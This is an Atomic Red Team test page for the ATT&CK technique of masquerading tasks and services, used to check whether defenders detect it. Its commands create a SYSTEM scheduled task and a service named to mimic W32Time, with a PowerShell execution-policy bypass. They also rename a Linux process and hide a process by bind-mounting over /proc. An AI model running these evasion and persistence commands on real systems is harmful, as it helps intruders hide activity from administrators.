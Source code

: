 # T1036.004 - Masquerading: Masquerade Task or Service
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1036/004)
<blockquote>

Adversaries may attempt to manipulate the name of a task or service to make it appear legitimate or benign. Tasks/services executed by the Task Scheduler or systemd will typically be given a name and/or description.(Citation: TechNet Schtasks)(Citation: Systemd Service Units) Windows services will have a service name as well as a display name. Many benign tasks and services exist that have commonly associated names. Adversaries may give tasks or services names that are similar or identical to those of legitimate ones.

Tasks or services contain other fields, such as a description, that adversaries may attempt to make appear legitimate.(Citation: Palo Alto Shamoon Nov 2016)(Citation: Fysbis Dr Web Analysis)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Creating W32Time similar named service using schtasks](#atomic-test-1---creating-w32time-similar-named-service-using-schtasks)

- [Atomic Test #2 - Creating W32Time similar named service using sc](#atomic-test-2---creating-w32time-similar-named-service-using-sc)

- [Atomic Test #3 - linux rename /proc/pid/comm using prctl](#atomic-test-3---linux-rename-procpidcomm-using-prctl)

- [Atomic Test #4 - Hiding a malicious process with bind mounts](#atomic-test-4---hiding-a-malicious-process-with-bind-mounts)


<br/>

## Atomic Test #1 - Creating W32Time similar named service using schtasks
Creating W32Time similar named service (win32times) using schtasks just like threat actor dubbed "Operation Wocao"

**Supported Platforms:** Windows


**auto_generated_guid:** f9f2fe59-96f7-4a7d-ba9f-a9783200d4c9






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
schtasks /create /ru system /sc daily /tr "cmd /c powershell.exe -ep bypass -file c:\T1036.004_NonExistingScript.ps1" /tn win32times /f
schtasks /query /tn win32times
```

#### Cleanup Commands:
```cmd
schtasks /tn win32times /delete /f
```





<br/>
<br/>

## Atomic Test #2 - Creating W32Time similar named service using sc
Creating W32Time similar named service (win32times) using sc just like threat actor dubbed "Operation Wocao"

**Supported Platforms:** Windows


**auto_generated_guid:** b721c6ef-472c-4263-a0d9-37f1f4ecff66






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
sc create win32times binPath= "cmd /c start c:\T1036.004_NonExistingScript.ps1"
sc qc win32times
```

#### Cleanup Commands:
```cmd
sc delete win32times
```





<br/>
<br/>

## Atomic Test #3 - linux rename /proc/pid/comm using prctl
Runs a C program that calls prctl(PR_SET_NAME) to modify /proc/pid/comm value to "totally_legit".  This will show up as process name in simple 'ps' listings.

**Supported Platforms:** Linux


**auto_generated_guid:** f0e3aaea-5cd9-4db6-a077-631dd19b27a8





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| exe_path | Output Binary Path | path | /tmp/T1036_004_prctl_rename|


#### Attack Commands: Run with `sh`! 


```sh
#{exe_path} & ps
TMP=`ps | grep totally_legit`
if [ -z "${TMP}" ] ; then echo "renamed process NOT FOUND in process list" && exit 1; fi
exit 0
```

#### Cleanup Commands:
```sh
rm -f #{exe_path}
```



#### Dependencies:  Run with `sh`!
##### Description: #{exe_path} must be exist on system.
##### Check Prereq Commands:
```sh
stat #{exe_path}
```
##### Get Prereq Commands:
```sh
cc -o #{exe_path} PathToAtomicsFolder/T1036.004/src/prctl_rename.c
```




<br/>
<br/>

## Atomic Test #4 - Hiding a malicious process with bind mounts
Creates a malicious process and hides it by bind mounting to the /proc filesystem of a benign process

**Supported Platforms:** Linux


**auto_generated_guid:** ad4b73c2-d6e2-4d8b-9868-4c6f55906e01






#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
eval '(while true; do :; done) &'
echo $! > /tmp/evil_pid.txt
random_kernel_pid=$(ps -ef | grep "\[.*\]" | awk '{print $2}' | shuf -n 1)
sudo mount -B /proc/$random_kernel_pid /proc/$(cat /tmp/evil_pid.txt)
```

#### Cleanup Commands:
```sh
kill $(cat /tmp/evil_pid.txt) || echo "Failed to kill PID $evil_pid"
rm /tmp/evil_pid.txt
```





<br/>
